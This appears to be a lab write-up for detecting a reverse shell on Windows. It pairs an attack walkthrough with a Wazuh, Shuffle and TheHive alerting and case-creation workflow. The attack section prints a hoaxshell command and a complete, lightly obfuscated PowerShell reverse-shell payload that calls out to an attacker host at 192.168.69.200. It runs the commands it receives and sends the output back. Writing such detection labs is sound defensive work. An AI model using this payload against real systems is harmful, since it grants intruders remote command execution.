

# Reverse Shell Execution

## Objective
Detect a suspicious external connection that opens a reverse shell from a Windows system.

## Course of attack
Attacker use hoaxshell to generate payload in Kali. Then this payload has to be included in to the PowerShell script. After its execution, attacker can get an access to command line of Windows.  
**Tool**: hoaxshell  
**Command**: `python3 hoaxshell.py -s 192.168.69.200 -r -H "Authorization"`  
**Tool**: PowerShell  
**Scrypt**: 
`$command = @'
$s='192.168.69.200:8080';$i='197e9fb0-2a86272c-0e33a75c';$p='http://';$v=Invoke-WebRequest -USEBaSicparsing -Uri $p$s/197e9fb0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-Web''Request -USEBaSicparsing -Uri $p$s/2a86272c -Headers @{"Authorization"=$i}).Content;if ($c -ne 'Hello') {$r=ie''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -Inpu''tObject $r;$t=Invoke-WebR''equest -Uri $p$s/0e33a75c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
'@
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -encodedCommand $encodedCommand`  

## Response
- Wazuh Agent detected login errors in Windows event logs by Sysmon and sent a custom rule “Multiple network connection initiated by PowerShell” to Wazuh.
- Wazuh uses configured Webhook to send alert to the Shuffle.
- After receiving a notification in Shuffle, the configured response scenario is automatically launched:
  - Creating alert in TheHive
  - Adding IP of attacker as observable to allert
  - Creating case with observable in TheHive
  - Sending notification to Discord Bot
- In TheHive, IP can be sent to check it with AbuseIPDB or VirusTotal

## Shuffle Workflow

